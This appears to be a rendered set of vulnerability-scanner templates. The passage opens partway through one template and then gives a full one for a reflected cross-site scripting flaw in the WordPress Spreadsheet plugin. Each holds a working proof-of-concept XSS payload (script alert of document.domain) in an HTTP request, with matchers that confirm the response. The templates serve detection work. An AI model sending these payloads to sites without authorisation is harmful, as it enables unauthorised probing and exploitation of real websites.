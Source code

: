 **Type - word**
- part - body
- words
    1. ">\</script>\<script>alert(document.domain)\</script>
    2. avada-footer-scripts
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Spreadsheet - Cross-Site Scripting
## Description
- WordPress Spreadsheet plugin contains a reflected cross-site scripting vulnerability in /dhtmlxspreadsheet/codebase/spreadsheet.php.

- severity - medium
- tags - wp,wpscan,cve,cve2013,wordpress,xss,wp-plugin
## Requests
### Step - 1
```
GET /wp-content/plugins/dhtmlxspreadsheet/codebase/spreadsheet.php?page=%3Cscript%3Ealert(document.domain)%3C/script%3E HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. page: '\<script>alert(document.domain)\</script>'
    2. dhx_rel_path
- condition - and

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---